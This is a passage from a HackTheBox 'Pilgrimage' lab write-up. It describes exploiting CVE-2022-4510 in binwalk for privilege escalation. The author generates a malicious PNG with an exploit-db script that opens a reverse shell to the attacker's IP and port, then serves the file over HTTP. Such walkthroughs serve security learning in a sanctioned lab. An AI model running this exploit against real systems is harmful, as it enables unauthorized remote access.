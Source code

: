 ```bash
emily@pilgrimage:/tmp$ binwalk -h

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk
```

The [exploit-db PoC](https://www.exploit-db.com/exploits/51249) seems to make a `binwalk_exploit.png` file which opens a reverse shell when it's run by `binwalk`.

First, I check `/var/www/pilgrimage.htb/shrunk` directory's permission.

```bash
emily@pilgrimage:/tmp$ ls -al /var/www/pilgrimage.htb/shrunk
total 8
drwxrwxrwx 2 root root 4096 Apr  5 12:00 .
drwxr-xr-x 7 root root 4096 Jun  8  2023 ..
```

It's globally writable, so I can just naively upload a file as `emily` using `scp`.
I tried it, but it didn't work well.
Even though I uploaded the png file on the intended path, listener never responded.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ touch empty.png



┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ python 51249.py empty.png 10.10.14.17 9001

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################

You can now rename and share binwalk_exploit and start your local netcat listener.



┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ python -m http.server          
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.219 - - [05/Apr/2025 16:25:10] "GET /test.png HTTP/1.1" 200 -
```
